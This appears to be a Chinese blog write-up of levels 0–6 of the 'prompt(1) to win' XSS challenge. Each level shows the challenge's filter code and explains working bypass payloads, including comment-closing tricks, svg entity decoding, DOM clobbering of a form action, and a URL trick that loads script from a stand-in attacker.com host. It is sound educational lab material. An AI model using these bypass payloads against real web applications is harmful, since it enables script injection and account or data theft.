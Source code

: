 ```yaml
---
title: XSS学习系列Chapter 3：prompt(1) XSS挑战
date: 2019-03-11 14:18:29
tags: 
	- XSS
	- 靶场
categories: WEB漏洞学习
---
```


## 一、概述

`prompt(1) to win`是一个XSS挑战的靶场。

靶场地址：http://prompt.ml/0

目标：Payload不需要用户交互，当输入有效且能执行`prompt(1)`向量时，会自动提交用户的答案。并显示**YOU WON**字样。

<!-- more -->

## 二、挑战

### Level 0

```
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```

没有经过任何过滤就直接输出，直接考虑闭合即可。

Payload:

> `"><script>prompt(1)</script>`
>
> `"><img src=x onerror=prompt(1)>`

### Level 1

```
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}       
```

JS正则：

- 语法规则：`/正则表达式主体/修饰符(可选)``
- ``/<\/?[^>]+>/gi`：
  - 匹配`<除>以外任意>`或`</除>以外任意>``
  - ``/gi`标识全局搜索匹配、不区分大小写。

将匹配的替换为空，因此不能出现`<`和`>`不能同时出现。由于一个标签即使没有最后面的`>`也是可以被浏览器正确解析的。或者最后使用`//`

因此，Payload:

> `<img src=x onerror=prompt(1) //`
>
> `<img src=x onerror=prompt(1)(空格) `

### Level 2

```
function escape(input) {
    // v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
} 
```

`[=(]`该正则含义为匹配`=`或`(`，因此这两个会被过滤。

考虑使用字符实体来替代`=`和`(`绕过，他们对应的字符实体为：`&#61;`、`&#40;`。

Payload：

>- `<svg><script>prompt&#40;1)</script>`

这里有个问题，`script`标签是属于**`Raw text elements`**类型的，该类型的标签的内容是不会被HTML解析器解码的，为什么该Payload还可行？

这是因为`<svg>`标签存在的缘故：

SVG 是使用 XML 来描述二维图形和绘图程序的语言。

简单来说就是处在`<svg>`标签内的内容会先被XML解析器解析，因此`&#40;`会被解码为`(`。

若支持ES6，还可以使用:

> ```
> <script>eval.call`${'prompt\x281)'}\`</script>
> ```

`eval`会对其进行解码。

### Level 3 

```
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}        
```

输入的内容会被输出到HTML注释之中，并且对`->`进行过滤，替换为`-`，以防对注释符号进行闭合。

使用`--!>`来闭合注释绕过。

Payload:

> - `--!><img src=x onerror=prompt(1)>`

### Level 4

```
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}        
```

正则限制了只能加载当前域下的脚本，不允许跨域。

但URL的格式可以形如：`http://user:password@attacker.com/`，表示以`user:password`登录`attack.com`。

因此这里可以考虑使用Payload：`http://prompt.ml/@attacker.com/payload.js`。但浏览器只支持`http://prompt.ml@attacker.com/payload.js`这样的，但注意到存在`decodeURIComponent()`函数，该函数会进行URL解码，因此我们可以将`/`进行URL编码为`%2f`以绕过。

最终Payload：

> - `http://prompt.ml%2f@attacker.com/payload.js`

该题需要我们`attacker.com`服务器上有payload.js文件，文件内容`prompt(1)`。

### Level 5 

```
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}      
```

过滤了`>`和`on`事件句柄以及`focus`，会将它们替换为`_`。

使用事件与等号可以不在一行特性进行绕过。并且使用`type="image"`覆盖`type="text"`。

Payload：

> - `" type="image" src=x onerror
>   =alert(1) `

### Level 6

```
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}      
```

输入形如：`http://httpbin.org/post#{"name":"Matt"}`格式的URL，会把`#`号前的部分作为新建表单的`action`属性的值，`#`号后面的Json格式的数据的键和值分别对应`<input />`标签的`name`和`value`属性的值。

正常情况下可以通过将`action`设置成`javascript`等伪协议，来触发XSS，但是过滤了`script:`、`data:`。

这里涉及到的一个知识点就是JavaScript中`document.forms[0].action`表单DOM操作，会先选择表单中`name`属性值为`action`的输入框，如果找不到，才会选择`form`标签的`action`属性。

因此Payload：

> - `javascript:prompt(1)#{"action":"111"}`

`document.forms[0].action`找到的不是`form`标签的`action`属性，而是`name`属性值为`action`的`<input />`标签。

......

**参考链接**

https://www.cnblogs.com/Ashenone/p/9049341.html

https://blog.csdn.net/Ni9htMar3/article/details/77938899

https://blog.csdn.net/qq_35078631/article/details/77073233